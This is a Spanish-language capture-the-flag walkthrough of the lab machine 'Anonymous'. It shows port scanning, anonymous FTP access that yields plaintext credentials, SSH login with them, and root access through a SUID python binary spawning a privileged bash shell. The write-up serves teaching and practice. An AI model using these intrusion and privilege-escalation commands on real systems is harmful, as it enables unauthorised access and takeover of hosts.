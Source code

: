 ```yaml
---
layout: post
title: Anonymous
subtitle: Plataforma MiraSoyRoot Dificultad Fácil
cover-img: /assets/img/anonymous.png
thumbnail-img: /assets/img/anonymous.png
share-img: /assets/img/anonymous.png
author: Elmili72
---
```



## Escaneo general de puertos

Como siempre, para empezar realizamos un escaneo general de los puertos que pudieran estar abiertos en nuestra máquina.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:51:45 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Conocidos los puertos abiertos podemos realizar un escaneo específico para conocer los servicios y las versiones. En este caso los puertos 21 (FTP) y 22 (SSH). Cabe destacar que nos permite el inicio de sesión con  el usuario *anonymous*, por lo que podemos entrar al servicio y exfiltrar información relevante.

```bash
❯ nmap -sCV -p21,22 172.17.0.2 -oN target
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
|_drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:2c:f0:4d:f3:f1:66:9b:24:ac:ea:3a:b7:68:18:7c (ECDSA)
|_  256 be:1b:55:29:51:a5:94:3e:b0:fc:d9:b7:98:9d:06:c5 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio FTP

En la enumeración del FTP tenemos un archivo interesante que es *crendenciales.txt*. Que para nuestra suerte nos da crenciales como el propio nombre indica.

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elmili): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23955|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads
226 Directory send OK.
ftp> get credenciales.txt
local: credenciales.txt remote: credenciales.txt
229 Entering Extended Passive Mode (|||48922|)
150 Opening BINARY mode data connection for credenciales.txt (38 bytes).
100% |*******************************************************************************************************************************|    38      537.81 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (65.79 KiB/s)
```

```bash
❯ cat credenciales.txt
Usuario: yados
Contraseña: croissant
```

## Exploitación

Al no haber otra vulnerabilidad que nos permita lograr la intrusión probamos las credenciales directamente contra el SSH.
### Intrusión

Y estamos dentro del usuario *yados*.

```bash
❯ ssh yados@172.17.0.2
yados@172.17.0.2\'s password: 
Linux 7dec485919af 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
yados@7dec485919af:~$ id
uid=1000(yados) gid=1000(yados) groups=1000(yados)
yados@7dec485919af:~$ whoami
yados
```

## Post-Explotación

Trar ver el archivo /etc/passwd y confirmar que no hay más usuarios para hacer pivoting pasamos directamente a la mejor parte de todo CTF. La escalada de privilegios :D.
### Escalada de Privilegios

No parece que exista la función *sudo*, por lo que directamente buscamos archivos con permisos *SUID*. Y vemos el binario */usr/local/bin/python*, así que vamos a explotarlo un poquito.

```bash
yados@7dec485919af:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
```

También vemos el binario sudo pero al no tener permisos de sudoers no podemos hacer nada con él a simple vista, por lo que continuamos con el binario de python.

```bash
yados@7dec485919af:~$ /usr/bin/sudo /bin/bash -p
[sudo] password for yados: 
yados is not in the sudoers file.
This incident has been reported to the administrator.
```

Para el que no esté familiarizado con este tipo de escalada recomiendo *GTFOBins*, que puede ser nuestro mejor amigo en estos casos. Y conseguimos el usuario *root* y leer el archivo *mirasoyroot.txt*.

```bash
yados@7dec485919af:~$ cd /tmp
yados@7dec485919af:/tmp$ mkdir privesc && cd privesc
yados@7dec485919af:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1000(yados) gid=1000(yados) euid=0(root) groups=1000(yados)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
felicidades hacker lo has conseguido, si eres de los 3 primeros en completar la maquina hablamé por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
